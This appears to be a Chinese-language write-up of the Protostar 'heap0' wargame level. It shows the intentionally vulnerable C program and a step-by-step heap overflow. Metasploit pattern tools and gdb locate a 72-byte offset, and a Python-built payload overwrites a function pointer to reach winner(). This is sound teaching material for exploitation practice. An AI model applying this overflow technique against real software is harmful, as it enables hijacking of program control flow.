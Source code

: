# heap0

## （一） 题目：

\#include &lt;stdlib.h&gt;

\#include &lt;unistd.h&gt;

\#include &lt;string.h&gt;

\#include &lt;stdio.h&gt;

\#include &lt;sys/types.h&gt;

struct data {

char name\[64\];

};

struct fp {

int \(\*fp\)\(\);

};

void winner\(\)

{

printf\("level passed\n"\);

}

void nowinner\(\)

{

printf\("level has not been passed\n"\);

}

int main\(int argc, char \*\*argv\)

{

struct data \*d;

struct fp \*f;

d = malloc\(sizeof\(struct data\)\);

f = malloc\(sizeof\(struct fp\)\);

f-&gt;fp = nowinner;

printf\("data is at %p, fp is at %p\n", d, f\);

strcpy\(d-&gt;name, argv\[1\]\);

f-&gt;fp\(\);

}

## （二）解题过程：

![](/png/73.png)

解题的关键是重写函数的指针。

strcpy\(d-&gt;name, argv\[1\]\); 把参数拷贝到了data

f-&gt;fp\(\);   f-&gt;fp = nowinner;  代码流走到了nowinner，输出没有通过。

所以可以修改指针指向winner.

思路如下：

1\)gdb调试程序查看奔溃点。（可以结合pattern脚本确定，非常好用）确定崩溃的起始位置距离参数开始填充的地方多远。

2）用winner函数的入口地址替换掉奔溃地址（漏洞触发后，跳转到了winner入口地址）

思路验证：

用pattern\_create生成测试数据

root@fly:/usr/share/metasploit-framework/tools/exploit\# ./pattern\_create.rb -h

Usage: msf-pattern\_create \[options\]

Example: msf-pattern\_create -l 50 -s ABC,def,123

Ad1Ad2Ad3Ae1Ae2Ae3Af1Af2Af3Bd1Bd2Bd3Be1Be2Be3Bf1Bf

测试数据作为输入参数，用gdb ./heap0调试

如果不带参数，就会产生段错误，所以用r 参数的形式带参数启动

![](/png/74.png)

然后用patter\_offset -q 计算数据偏移位置

72

也就是在72个数据后 出现了奔溃的数据。 72 \*A + 奔溃数据

2） 用gdb找出winner函数的入口地址

print winner

\(gdb\) print winner

$1 = {void \(void\)} 0x8048464 &lt;winner&gt;

3\)构造漏洞利用的payload

./heap0 $\(python -c 'print “A"\*72 + "\x64\x84\x04\x08"'\)

注意后面带python语句作为参数执行时候要用 $符号。

$ ./heap0 $\(python -c 'print "A"\*72 + "\x64\x84\x04\x08"'\)

data is at 0x804a008, fp is at 0x804a050

level passed



ref:

[http://l33thacker.com/protostar-heap0-writeup/](http://l33thacker.com/protostar-heap0-writeup/)


